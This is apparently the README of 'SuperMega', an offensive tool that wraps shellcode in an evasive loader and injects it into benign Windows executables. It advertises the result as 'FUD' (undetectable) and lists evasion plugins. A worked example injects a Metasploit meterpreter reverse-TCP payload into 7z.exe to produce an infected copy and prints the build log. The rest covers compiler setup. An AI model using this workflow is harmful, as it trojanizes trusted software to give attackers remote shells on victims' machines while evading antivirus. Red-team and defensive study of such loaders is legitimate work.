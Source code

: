 # SuperMega - Cordyceps Implementation

> Ophiocordyceps camponoti-balzani is a species of fungus that parasitizes 
> insect hosts of the order Hymenoptera, primarily ants. O. 
> camponoti-balzani infects ants, and eventually kills the hosts after 
> they move to an ideal location for the fungus to spread its spores.


## What

SuperMega is a shellcode loader. It will take a shellcode as input, protects it, adds a loader,
and injects the resulting shellcode into an exe. 

FUD.

And: 
* Only works with 64 bit (shellcode and infecteble exe's)

Features: 
* Loader source is C yay
* Execution-Guardrails
  * Environment variables
* configurable implementation
* different EXE injection techniques

Plugins: 
* source style:
  * PEB_WALK
  * IAT_REUSE
* alloc style:
  * RWX
  * REUSE_RWX
* decoder style:
  * PLAIN_1
  * XOR_1
* dataref style:
  * APPEND


## Examples

### Metasploit in 7z

Inject metasploit into 7z.exe. It will use PEB_WALK. 

```
PS C:\repos\supermega> python.exe .\supermega.py --shellcode .\shellcodes\msf-meterpreter-reversetcp.bin --inject .\exes\7z.exe
(supermega.py) Super Mega
(helper.py   ) --[ Remove old files ]
(model.py    ) --( Capabilities: 
(model.py    )   0x0: GetEnvironmentVariableW (b'')
(model.py    )   0x460090: VirtualAlloc (b'')
(supermega.py) --[ SourceStyle: peb_walk
(compiler.py ) --[ C to ASM: build\main.c -> build\main.asm ]
(compiler.py ) ---[ Make ASM from C: build\main.c ]
(compiler.py ) ---[ Fixup  : build\main.asm ]
(compiler.py )     > Replace external reference at line: 8
(compiler.py )     > Replace external reference at line: 395
(compiler.py )     > Replace payload length at line: 389
(compiler.py )     > Add end of code label at line: 807
(compiler.py ) ---[ Cleanup: build\main.asm ]
(assembler.py) --[ Assemble to exe: build\main.asm -> build\main.exe -> build\main.bin ]
(assembler.py) ---[ Assemble ASM to EXE: build\main.asm -> build\main.exe ]
(assembler.py) ---[ EXE to SHC: build\main.exe -> build\main.bin ]
(helper.py   ) --[ Code section: .text
(helper.py   )     > 0x1000 Code Size: 2557  (raw code section size: 2560)
(assembler.py) --[ Merge stager: build\main.bin + .\shellcodes\msf-meterpreter-reversetcp.bin -> build\main.bin ]
(assembler.py) ---[ Size: Stager: 2557 and Payload: 449  Sum: 3006 ]
(injector.py ) --[ Injecting: build\main.bin into: .\exes\7z.exe -> .\exes\7z.infected.exe ]
(supermega.py) --[ Start infected exe ]
```


## Directories

* `shellcodes/`: Input: Shellcodes we want to use as input (payload)
* `source/`: Input: Loader C templates
* `plugins/`: Input: Loader C implementations
* `exes/`: Input: Nonmalicious EXE files we inject into
* `build/`: build: Temporary files during build process
* `logs/`: build: Files generated by building (inspect for debugging)
* `out/`: output. The generated result: infected exe

## Installation

### Paths

Configure `config.yaml` with: 
* Path to Visual Studio 2022 compiler and assembler
* Path to mash_shc and runshc: https://github.com/hasherezade/masm_shc. 

`config.yaml`:
```yaml
path_cl: 'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\cl.exe'
path_ml64:  'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\ml64.exe'

path_masmshc:  'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\masm_shc\masm_shc.exe'
path_runshc: 'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\runshc\runshc.exe'
```

Make sure its the `Hostx64/x64/` one exe. Make sure to compile
msmshc and runshc as 64bit. You can also replace runshc with
your own shellcode loader. 

### Environment Variables

Use
```
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvars64.bat"
```

or the VS developer console to find the damn environment variables, and set 
it in your python console. In my case:
```
$env:INCLUDE = "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\VS\include;C:\Program Files (x86)\Windows Kits\10\include\10.0.22621.0\ucrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\um;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\shared;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\winrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\cppwinrt;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\include\um"
$env:LIB="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\lib\um\x64;C:\Program Files (x86)\Windows Kits\10\lib\10.0.22621.0\ucrt\x64;C:\Program Files (x86)\Windows Kits\10\\lib\10.0.22621.0\\um\x64"
$env:LIBPATH="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x86\store\references;C:\Program Files (x86)\Windows Kits\10\UnionMetadata\10.0.22621.0;C:\Program Files (x86)\Windows Kits\10\References\10.0.22621.0;C:\Windows\Microsoft.NET\Framework64\v4.0.30319"
```

### VS2022 Components

A list of packages/components which may be required for Visual Studio 2022:
* C++ 2022 Redistributable Update
* C++ Build Insights
* C++ CMake tools for windows
* C++ /CLI support for v143 build tools (lastest)
* MSBuild
* MSVC v133 - VS 2002 C++ x64/x86 build tools (latest)
* C++ ATL for latest v143 build tools (x86 & x64)
* C++ MFC for latest v143 build tools (x86 & x64)
* Windows 11 SDK